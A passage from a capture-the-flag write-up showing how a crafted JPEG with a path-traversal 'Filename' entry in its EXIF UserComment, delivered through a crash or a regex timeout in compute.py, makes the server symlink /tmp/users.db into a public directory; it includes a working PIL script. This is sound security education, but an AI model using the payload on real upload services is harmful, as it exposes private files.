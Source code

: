 As you can see, the script reads our image description and crashes when reading the user comment.

And this is the metadata output from `compute.py`:

```bash
solution $ cat output_metadata.txt
== metadata ==
Faces: 1
Contrast: 0.9
Area: 100000
Score: 9.0
ImageDescription: 

Filename: /tmp/users.db <--- last filename tag in the file is from our exif data
```


To summarize, we've created a `.jpg` which will crash `compute.py` early, meaning that the  the path we control (`/tmp/users.db`) is the last filename in the metadata file. Given that `app.py` reads the last `Filename:` metadata tag, the server will now correctly symlink `/tmp/users.db` into our `static` directory. 

#### Intended solution

As cool as our solution was, using invalid Unicode bytes wasn't the intended solution. If you look in `main.py`:

```py
def compute_metadata(fpath):
    output_file = fpath + '.meta'
    cmd = ['python3', 'compute.py', fpath, output_file]
    subprocess.run(cmd, timeout=1) # 1 second timeout isn't enough to parse long regex
```

The `compute.py` is ran with a timeout of 1 second. Yet, `compute.py` parses the UserComment EXIF data with regex, a regex which can take > 3 seconds to execute (even with really small input). Because of this timeout, you can insert a filename in the user comment EXIF tag before a `USER=` to make `compute.py` time out before it adds all of the metadata (e.g. the original filename). Here's the problem author @p_nack's example of timing out the regex:

```py
from PIL import Image
from PIL.ExifTags import TAGS

image = Image.new('RGB', (1, 1))
exif = image.getexif()
reverse_tags = {v: k for k, v in TAGS.items()}

exif[reverse_tags['UserComment']] = b'USER=foo:111231111111111111111111111111111111111111 ;\nFilename: ../../../../tmp/users.db\n'

img_out_fname = os.path.dirname(__file__) + '/img_out.jpg'
image.save(img_out_fname, exif=exif)

print(f'Image saved to {img_out_fname}')
```
